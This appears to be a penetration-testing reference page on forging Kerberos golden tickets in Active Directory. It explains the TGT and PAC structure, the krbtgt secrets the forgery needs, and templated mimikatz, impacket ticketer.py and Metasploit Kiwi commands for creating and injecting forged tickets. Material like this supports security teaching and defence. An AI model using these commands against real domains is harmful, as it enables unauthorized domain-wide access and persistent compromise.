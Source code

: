 # Active Directory - Kerberos Golden Tickets

### Overview

`Kerberos` is an authentication protocol, used within Active Directory that
rely on the use of tickets to identify users and grant access to domain
resources. `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A `TGT` is generally requested by an user through a `KRB_AS_REQ` request to the
`AS` of the `KDC` during the login process on a Windows system integrated to an
Active Directory domain. `TGTs` are encrypted using one of the secrets
(`RC4 key`, whose value is identical to the `NTLM` hash, or `AES 128/256 bits
keys`) of the `krbtgt` account of the domain. After reception of the `TGT`,
in a `KRB_AS_REP` response from the `KDC`, `TGT` are stored in memory by the
client in the `Security Support Provider (SSP) Kerberos` of the `Local Security
Authority Server Service (LSASS)` process.

An user authentication data is stored encrypted (using one of the secrets of
the `krbtgt` account) in the `Privilege Attribute Certificate (PAC)` of the
`TGT` and includes:
  - The `Domain SID` and `User RID`, which combination form the user's current
  `Security Identifier (SID)`
  - the user's `SIDs` kept in its `SIDHistory` attribute
  - The `GROUP_MEMBERSHIP_ARRAY` which contains the user's group memberships,
  in the form of the groups `Relative ID (RID)`.

Whenever generating a `service ticket`, the `TGT`'s `PAC` will be decrypted by
the `KDC`, signed using both one of the secrets of the `krbtgt` account
(`KDC Signature`) and of the targeted service account (`Server Signature`), and
ultimately encrypted using one of the secrets the targeted service account.

`Golden tickets` are `TGT` forged with arbitrary authentication data. Indeed,
the specified username, groups `RID` and `SIDs` will be added to the forged
ticket `PAC`. The `golden ticket` can be injected in the current user session
and used to directly request `service tickets` from the `TGS`.

To generate a `golden ticket`, the following prerequisites are needed:
  - The fully qualified domain name and the `SID` of the targeted domain.
  - One of the secrets of the targeted domain `krbtgt` account. The `krbtgt`
  `RC4` key, corresponding to the `NTLM hash` of the `krbtgt` password, as
  well as the `AES 128/256 bits` keys can be used.

Note that while the user account specified for the `golden ticket` must be a
member of the targeted domain, the arbitrary SIDs added in the SID history of
the forged ticket (`ExtraSids` field of the `PAC`) can come from external
domains or forests (for which trusts relationships are configured).

### Golden tickets generation

The `mimikatz` `kerberos::golden` module and `impacket`'s `ticketer.py` can be
used to generate `golden tickets`.

The `golden ticket`'s:
  - `UserId` (impersonated user's `RID`) can be specified using (`mimikatz`)
    `/id` / (`ticketer.py`) `-user-id` `<USER_ID>` and defaults to `500`.

  - `GroupIds` (impersonated group memberships) can be specified using
    (`mimikatz`) `/groups` / (`ticketer.py`) `-groups`
    `<GROUP_RID | GROUP_RID1, ..., GROUP_RIDN>` and defaults to
    `513, 512, 520, 518, 519`.

  - `ExtraSids` (impersonated user's `SID History`) can be specified using
    (`mimikatz`) `/sids` / (`ticketer.py`) `-extra-sid`
    `<EXTRA_SID | EXTRA_SID1, ..., EXTRA_SIDN>`.

```
# Retrives the domain SID.
Get-ADDomain | Ft DNSRoot, DomainSID

# [Windows] Golden tickets generation using mimikatz.
# The generated ticket can be directly injected in the current session using the "/ptt" option.
# Otherwise the golden ticket is exported in the KRB_CRED format (KIRBI file on disk).
mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> [/rc4:<KRBTGT_NTLM> | /aes128:<KRBTGT_AES128> | /aes256:<KRBTGT_AES256>] [/groups:<RID | RID_LIST>] [/sids:<EXTRA_SID | EXTRA_SIDS_LIST>]

# [Linux / Windows] Golden tickets generation using ticketer.py.
# The generated ticket is exported in the credential cache (ccache) format.
ticketer.py -domain <DOMAIN_FQDN> -domain-sid <DOMAIN_SID> [-nthash <KRBTGT_NTLM> | -aesKey <KRBTGT_AES128 | KRBTGT_AES256>] <USERNAME>
ticketer.py -domain <DOMAIN_FQDN> -domain-sid <DOMAIN_SID> [-nthash <KRBTGT_NTLM> | -aesKey <KRBTGT_AES128 | KRBTGT_AES256>] -user-id <500 | USER_ID> -groups <GROUP_RID | GROUP_RID1, ..., GROUP_RIDN> -extra-sid <EXTRA_SID | EXTRA_SID1, ..., EXTRA_SIDN> <USERNAME>
```

###### mimikatz with Metasploit

`mimikatz` 2.0 is available in a `meterpreter` shell as the `Kiwi` extension.

To following command can be used to load the extension in memory on a
`meterpreter` shell: `use kiwi`

Once the module has been loaded, the `golden_ticket_create` command can be
used to create a golden ticket:

```
golden_ticket_create -d '<FQDN_DOMAIN>' -s '<SID_DOMAIN>' -k '<KRBTGT_HASH>' -u '<USERNAME>' -t '<FULL_SAVE_PATH>'

Usage: golden_ticket_create [options]
OPTIONS:
    -d <opt>  FQDN of the target domain (required)
    -g <opt>  Comma-separated list of group identifiers to include (eg: 501,502)
    -h        Help banner
    -i <opt>  ID of the user to associate the ticket with
    -k <opt>  krbtgt domain user NTLM hash
    -s <opt>  SID of the domain
    -t <opt>  Local path of the file to store the ticket in (required)
    -u <opt>  Name of the user to create the ticket for (required)
```

Tickets can be loaded/purged using the `kerberos_ticket_use` and
`kerberos_ticket_purge` commands:

```
kerberos_ticket_use <FULL_SAVE_PATH>
kerberos_ticket_purge
```

### Golden tickets usage (Pass-the-Ticket)

On Windows, `golden tickets` generated using `mimikatz` will be automatically
injected in the current logon session if the `/ptt` option is specified.
Otherwise, an exported `golden ticket` can be injected using
`mimikatz.exe "kerberos::ptt <TICKET_FILE_PATH>` for example.

On Linux, `golden tickets`, in the `credential cache (ccache)` format can be
exported in the `KRB5CCNAME` environment variable for further use through tools
supporting the `Kerberos` protocol, such as `Impacket` Python utilities.

Refer to the `[ActiveDirectory] Kerberos tickets usage` for more information on
techniques and tools to leverage `golden tickets`.

--------------------------------------------------------------------------------

### References

https://2014.rmll.info/slides/80/day_3-1010-Benjamin_Delpy-Mimikatz_a_short_journey_inside_the_memory_of_the_Windows_Security_service.pdf
https://adsecurity.org/?page_id=1821
TECHNIQUES DE PERSISTANCE ACTIVE DIRECTORY BASÉES SUR KERBEROS - MISC Hors-Série N°20
https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Silver_Ticket_Walkthrough.html
